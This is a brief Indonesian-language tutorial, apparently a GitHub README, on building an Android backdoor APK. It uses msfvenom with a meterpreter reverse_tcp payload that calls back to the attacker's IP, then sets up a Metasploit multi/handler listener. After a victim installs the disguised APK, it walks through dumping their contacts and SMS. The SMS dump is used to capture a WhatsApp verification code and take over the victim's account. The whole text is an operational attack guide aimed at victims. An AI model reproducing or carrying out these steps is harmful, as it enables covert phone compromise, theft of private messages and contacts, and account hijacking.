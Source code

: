 Cara membuat apk bacdoor kamka :v

cd metasploit-framework
./msfvenom -p android/meterpreter/reverse_tcp LHOST=(ip elo)  LPORT=4444 -o /sdcard/backdoor.apk

NOTE :ip local elo 
note juga tab baru ketik ifconfig lalu tekan enter NAH di situ ada tulisan inet kalian liat yang
 paling bawah ya kalian copy ip kalian

NOTE LAGI: nama backdoor itu bisa kalian ganti bebas bisa juga kalian ganti jadi SIMONTOK.apk

NOTE LAGI NIH : LPROT BISA 4444 ATAU 8080

Setelah itu masukin PERINTAH exploit nya

Pertama : use multi/handler
Kedua : set payload android/meterpreter/reverse_tcp
Ke tiga : set lhost (Samain yang di atas ip elo)
KE EMPAT : set lport (sesuain yang di atas 4444 atau 8080)
KE LIMA :  exploit NOTE MASUKAN PERINTAH INI JIKA KORBAN SUDAH MENGISTALL APK BACKDOOR NYA

PUNTEN BONUS: 
NAH KLO DAH SELESAI NTAR ADA TULISAN MERTERPRETER
NAH KLO KALIAN MO TAU KONTAK KORBAN masukin prerinta dump_concat
Klo mo sadap wa :
sys info

dalvik/android

 klean login pake nomer korban nah kan udh ya minta kode verivikaisi nya
Pergi ke mestaploit ketil dump_sms nah ntar bakal muncul kode 
Kalian buka tab baru  nah contoh ya kode nya dari mestaploit sms_dump_29910101.txt
29910101.txt  nah  kan kalian sudah buka tab baruya kalian ketik  cat (kode dari mestaploitnya)
